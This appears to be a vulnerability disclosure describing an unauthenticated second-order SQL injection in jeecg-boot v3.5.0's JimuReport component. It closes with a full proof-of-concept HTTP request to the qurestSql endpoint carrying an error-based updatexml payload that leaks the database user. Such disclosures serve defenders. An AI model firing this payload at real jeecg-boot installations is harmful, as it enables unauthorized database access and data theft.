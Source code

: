 # Java Low Code Platform for Enterprise web applications jeecg-boot(v3.5.0) latest unauthorized sql injection. 
## The program is built using the idea
## Vulnerability File: jimureport-spring-boot-starter-1.5.6.jar!/org/jeecg/modules/jmreport/desreport/a/a.class
## code
![image](https://user-images.githubusercontent.com/6756211/225226785-921a16d8-d593-46cf-afaa-c01049295897.png)

the params *apiSelectId* will query infos from table jimu_report_db
![image](https://user-images.githubusercontent.com/6756211/225229552-e66847a8-5352-4c0f-a631-94c030f930a3.png)
the column db_dyn_sql in jimu_report_db is a sql statement, and this sql will cause Second Degree injection
![image](https://user-images.githubusercontent.com/6756211/225231234-5c6e87d6-bb7a-439e-91a0-911a4e1ea45d.png)

## payload
![image](https://user-images.githubusercontent.com/6756211/225232140-4bc42acf-91e2-479b-bf6e-a9c797e070f9.png)

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
Content-Length: 130
Content-Type: application/json;charset=UTF-8

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```
